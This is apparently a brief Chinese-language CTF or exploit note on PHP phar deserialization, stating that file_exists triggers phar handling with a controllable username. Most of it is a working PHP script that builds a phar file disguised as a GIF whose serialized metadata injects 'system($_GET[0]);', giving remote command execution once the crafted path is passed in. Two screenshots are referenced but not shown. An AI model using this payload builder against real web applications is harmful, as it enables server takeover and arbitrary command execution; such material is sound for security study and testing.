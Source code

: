 file_exists 可以触发phar，username可控
![](attachments/Pasted%20image%2020240403180935.png)

![](attachments/Pasted%20image%2020240403181815.png)

```PHP
<?php  
class AnyClass{  
    var $output = 'echo "ok";';  
}  
  
$o = new AnyClass();  
$o->output = 'system($_GET[0]);';  
  
$phar = new Phar("phar.jpg");  
$phar->startBuffering();  
$phar->setStub("GIF89a"."<?php __HALT_COMPILER(); ?>"); //设置stub，增加gif文件头  
$phar->setMetadata($o); //将自定义meta-data存入manifest  
$phar->addFromString("test.txt", "test"); //添加要压缩的文件  
$phar->stopBuffering();
```
构造username即可触发
